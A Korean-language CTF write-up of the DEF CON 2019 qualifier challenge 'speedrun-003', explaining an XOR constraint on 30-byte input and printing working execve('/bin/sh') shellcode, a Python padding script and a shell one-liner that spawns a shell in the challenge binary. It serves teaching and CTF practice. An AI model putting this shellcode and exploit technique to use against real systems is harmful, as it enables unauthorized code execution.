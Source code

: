 ```yaml
---
layout: post
title: ! "[DefconCTF 2019] speedrun-003"
excerpt_separator: <!--more-->
comments : true
tags:
  - KRater
  - Defcon CTF
  - Write-up
---
```


### Description

Defcon CTF 2019 온라인 예선에 나왔던 문제.

다른 팀원들이 일부러인지 안 풀어서 풀어보았다.


<!--more-->

### 문제 풀이

문제 자체는 무지 간단하다.

![]({{ site.baseurl }}/images/KRater/2019-06-01-speedrun003-writeup/pic01.png)

입력 받고, 그대로 쉘코드를 실행시켜 준다. 대신에 조건이 두 가지가 있는데

1) 쉘 코드 길이가 30이어야 하고,

2) 앞 15바이트가 뒤 15바이트와 xor 연산 결과가 같아야 한다.

말 그대로, 앞의 15바이트가 각각 모두 xor한 결과가 뒤의 15바이트를 각각 모두 xor한 결과와 같아야 한다는 것이다.

문제를 풀기 위해 사용한 쉘 코드는 스탠다드한 24바이트짜리 쉘코드이다.

`\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`

해당 쉘코드의 끝에 도달하면 뒤의 인스트럭션은 실행될 필요가 없으므로, 뒤에 패딩 6바이트를 붙여서 전반부 쉘코드의 xor 된 결과와 후반부 쉘코드의 xor 된 결과를 같게 만들어주면 된다.

```python
sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

print (len(sc))
tmp = 0
for i in range (0,15):
    tmp = tmp ^ ord(sc[i])

print ("first 15 bytes : 0x%X" % tmp) # result : 0xCD

tmp = 0
for i in range (15, len(sc)):
    tmp = tmp ^ ord(sc[i])

print ("last 15 bytes : 0x%X" % tmp) # result : 0xC2

#sc[24] = "\xC2" # xored = 0
#sc[25] = "\xCD" # xored = CD
#sc[26] = "\xCD" # xored = 0
#sc[27] = "\xCD" # xored = CD
#sc[28] = "\xCD" # xored = 0
#sc[29] = "\xCD" # xored = CD

sc2 = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"

print (len(sc2))
print (sc2)
```

이제 0xC2를 0xCD로 바꾸어주면 되므로, 뒤에 패딩을 붙인다. 0xC2를 xor해서 0으로 만들어준 뒤, 0xCD를 홀수 번 xor시켜서 최종 결과가 0xCD가 되도록 맞추어 준다.

```bash
cragy0516@argos-edu:~/decon2019/speedrun-003$ (python -c 'print "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"';cat) | ./speedrun-003
Think you can drift?
Send me your drift
ls
cal.py	ex.py  speedrun-003
```

쉘 코드가 성공적으로 실행되었다.